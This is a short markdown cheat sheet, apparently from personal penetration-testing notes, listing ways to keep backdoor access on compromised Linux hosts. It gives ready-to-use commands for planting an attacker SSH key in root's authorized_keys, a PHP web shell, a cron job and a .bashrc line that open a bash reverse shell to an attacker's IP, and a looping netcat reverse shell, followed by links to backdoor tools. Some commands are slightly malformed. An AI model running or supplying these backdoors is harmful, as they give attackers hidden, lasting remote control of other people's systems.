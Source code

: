 [back](/README.md)
# ssh backdoor

The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory.

1. generate ssh-keygen
```
ssh-keygen
```
2. go to /root.ssh and leave our public key there with name `authorized_keys`

---
# php backdoor

1. put php code inside /var/www/html as file shell.php
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

2. go to link http://[ip[/shell.php and execute command:

```
http://<ip>/shell.php?cmd=id
```

---
# cron job backdoor

1. create reverse_shell.sh
```
cat > reverse_shell.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/<your ip>/4444 0>&1
```
2. add reverse_shell.sh to execute every minute
```
echo "* * * * * root /path/to/reverse_shell.sh >> /etc/crontab
```

---
# bashrc backdoor

```
echo 'bash -i >& /dev/tcp/<your ip>/4444 0>&1' >> ~/.bashrc
```
every time user logs in, reverse_shell gets executed

---
# Reverse Shell Bash Loop

while true; do sleep 5 && mknod /dev/shm/p p; cat /dev/shm/p | /bin/bash -i | nc 127.0.0.1 9001 >/dev/shm/p; done

# links
- [powershell backdoor tool](https://github.com/ELMERIKH/Keres)
- [persistence](https://github.com/MatheuZSecurity/D3m0n1z3dShell)